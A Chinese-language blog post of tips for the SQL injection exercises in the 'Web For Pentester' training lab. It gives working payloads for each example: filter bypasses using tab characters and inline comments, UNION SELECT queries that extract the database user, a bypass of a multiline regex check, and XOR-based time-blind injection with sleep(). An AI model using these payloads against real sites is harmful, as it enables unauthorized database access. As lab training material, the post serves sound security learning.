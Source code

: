 ```yaml
---
layout:     post
title:      "Web For Pentester - SQLi Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
categories: [pentest, Training documents, SQL injection]

---
```




### SQLi Example 1

最基础的字符型注入，无任何过滤

**name=root' and '1'='1**

### SQLi Example 2

过滤了空格，语句中若出现空格就会报错

> - 水平制表(HT) url编码：%09
> - 注释绕过空格   /\*注释\*/

**name=root'%09and%09'1'='1**

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 3

**name=root'/\*\*/union/\*\*/select/\*\*/1,2,3,4,5%23**

### SQLi Example 4

最基础的数值型注入，过滤了单引号

**id=2%20and%201=2**

### SQLi Example 5

```php
//代码片段
if (!preg_match('/^[0-9]+/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字开头

**id=1/0 UNION SELECT 1,user(),3,4,5**

### SQLi Example 6

```php
//代码片段
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

可以看出这里参数id必须以数字结尾

**id=1 and 1=1%23123**

### SQLi Example 7

```php
//代码片段
if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
  die("ERROR INTEGER REQUIRED");    
}
```

这里使用了[PCRE_MULTLINE](http://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)(/m)，也就是说任意换行符之前或之后都必须是数字，那么就可以构造如下payload

**id=1%0a and 1=1**

### SQLi Example 8

使用XOR逻辑加时间盲注进行猜解

**order=name`  xor if(ascii(substring(user(),1,1))=111,sleep(5),0)%23**

### SQLi Example 9

这里过滤了“`”，可以使用XOR让第一个语句报错，第二个语句正确，页面显示正常

**order=1 xor if(ascii(substring(user(),1,1))=112,sleep(5),0)%23**















